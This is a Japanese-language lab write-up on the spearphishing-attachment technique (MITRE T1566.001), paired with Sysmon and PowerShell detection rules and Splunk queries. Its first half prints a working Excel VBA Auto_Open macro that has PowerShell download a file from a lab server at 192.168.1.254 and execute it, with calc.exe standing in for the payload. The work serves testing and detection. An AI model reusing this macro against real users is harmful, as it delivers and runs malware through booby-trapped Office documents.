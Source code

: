 # T1566.001 - Phishing Spearphishing Attachment

Phishing Spearphishing Attachment 検証
-------------

MS Office VBA Macro によるリモートファイルの実行とその検知について記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1566.001  |
|  Tactic  |  Initial Access |
|  Techniques  |  Phishing  |
|  Sub-techniques  |  Spearphishing Attachment |


本検証では、リモート端末にホストされた悪意のあるファイルに見立てた calc.exe ファイルを取得し実行するマクロを実装します。

VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。

![T1566.001-1](images/T1566.001-1.png)

追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。

![T1566.001-2](images/T1566.001-2.png)

ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

```
Sub Auto_Open()

Set ws = CreateObject("WScript.Shell")

ws.Run "cmd.exe /c powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.254:8080/calc.exe ','%USERPROFILE%\Desktop\malicious.exe'); %USERPROFILE%\Desktop\malicious.exe", 0, True

End Sub
```

今回のケースではリモート端末として Kali Linux を用意し、別途 Windows から取得した calc.exe を配置しています。
簡単のために Simple HTTP Server を用いて GET の待ち受けを行います。

![T1566.001-3](images/T1566.001-3.png)

```
$ python2 -m SimpleHTTPServer 8080
```

VBA マクロが正しく動作するかの確認は、緑の実行ボタンから確認することができます。

![T1566.001-4](images/T1566.001-4.png)

リモート端末側では calc.exe が取得される様子が確認できます。

![T1566.001-5](images/T1566.001-5.png)

最後に、MS Excel をマクロが動作する xlsm 形式で保存します。

ファイルをオープンすると「コンテンツの有効化」が求められ、クリックすることでcalc.exe ファイルの取得と実行が行われます。

![T1566.001-6](images/T1566.001-6.png)


検知ルール検討
-------------

検知ルールについて検討します。
検証を行った本攻撃手法では、MS Office から cmd.exe が呼び出されています。
excel.exe や winword.exe といった MS Office が Caller となり cmd.exe や powershell.exe のプロセスが生成されることは通常の業務利用では稀であると考え、このプロセスの関係を検知ルールに落とし込む方法が考えられます。
Sysmon の EID 1 では生成されたプロセスとその呼び出し元プロセスがそれぞれ Image と ParentImageとして記録されます。

Splunk であれば以下のような SPL でプロセスの関係性をテーブル表示、またはビジュアル化することが可能です。

```
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
|eval ParentImage(From)=ParentImage 
|eval Image(To)=Image
|search "ParentImage(From)" != null
|table _time ParentImage(From) Image(To) process EventCode
|sort - _time
```
![T1566.001-7](images/T1566.001-7.png)

![T1566.001-8](images/T1566.001-8.png)

MS Office が Caller となり cmd.exe および powershell.exe のプロセスを生成する点に着目し、以下の検知ルールを提案します。

**MS Office からの cmd.exe および powershell.exe プロセス生成の検知ルール**

```
Sysmon
  EID 1 
    ParentImage 
      (*\EXCEL.EXE) OR (*\WINWORD.EXE)
　 AND
　 Image
      (*\cmd.exe) OR (*\powershell.exe) 
```

次に、本攻撃手法では、powershell.exe がリモートのファイルをダウンロードし、実行を行います。
その際に使われる Powershell のコマンドに着目し検知ルールを検討します。

Powershell の拡張ログでモジュールログ (EID4103)、スクリプトブロックログ (EID4104)それぞれで記録されるコマンド履歴に対してコマンドをマッチさせます。

Splunk であれば以下のような SPL で Powershell のコマンド部分を抽出することができます。

```
host="DESKTOP-53N6B15" source="XmlWinEventLog:Microsoft-Windows-PowerShell/Operational" EventID=4104
| rex field=EventData_Xml "<Data Name='ScriptBlockText'>(?P<PS_COMMAND>.+?)</Data>"  
| stats  count by PS_COMMAND  
| sort  - count
```

![T1566.001-9](images/T1566.001-9.png)

powershell.exe がリモートのファイルをダウンロードするコマンドに着目し、以下の検知ルールを提案します。

**powershell.exe によるリモートファイル取得の検知ルール**

```
Powershell
  EID 4103
    EventData
      Data Name="ContextInfo"
        (*WebClient*) AND (*DownloadFile*)
  OR
  EID 4104
    EventData
      Data Name="ScriptBlockText"
        (*WebClient*) AND (*DownloadFile*)
```
